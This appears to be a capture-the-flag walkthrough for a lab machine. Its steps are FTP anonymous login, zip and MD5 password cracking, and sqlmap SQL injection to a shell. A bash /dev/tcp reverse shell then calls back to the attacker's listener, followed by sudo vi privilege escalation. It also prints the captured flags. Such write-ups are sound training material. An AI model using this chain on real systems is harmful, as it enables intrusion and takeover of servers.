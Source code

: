 # Enumerate services with `nmap 10.129.251.16 -p1,1000 -sC -sV`
```
21 ftp
```

# Log to ftp and extract the file
```
log with 'anonymous'
password is blank or 'anonymous'

ls
get backup.zip
```

# Unzip backup.zip
```
unzip backup.zip [requires password]
john2zip backup.zip > hash
john --wordlist=~/Wordlists/rockyou.txt hash
```

# Check `index.php`
```
if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3")
after brute forcing the md5 hash finding that the password is 'qwerty789'
```

# Enter the website and try to search something
```
find the url get variable `search`
http://10.129.251.16/dashboard.php?search=<field>
```

# One Terminal
```
python3 ./sqlmap.py -u http://10.129.251.16/dashboard.php?search=random --cookie="PHPSESSID=l65vchd80b8mademtsqvn774f9" --os-shell
bash -c "bash -i >& /dev/tcp/10.10.15.204/9999 0>&1"
```

# Second Terminal
```
nc -lnvp 9999
python3 -c 'import pty;pty.spawn("/bin/bash")'
[Ctrl + Z]
stty raw -echo
fg
export XTERM=xterm
```

# user.txt
```
ec9b13ca4d6229cd5cc1e09980965bf7
```

# At /var/www/html/dashboard.php | grep postgress
```php
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```

# Exec `sudo -l`
```
(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

## Use !sh to privesc..

# root.txt
```
dd6e058e814260bc70e9bbdef2715849
```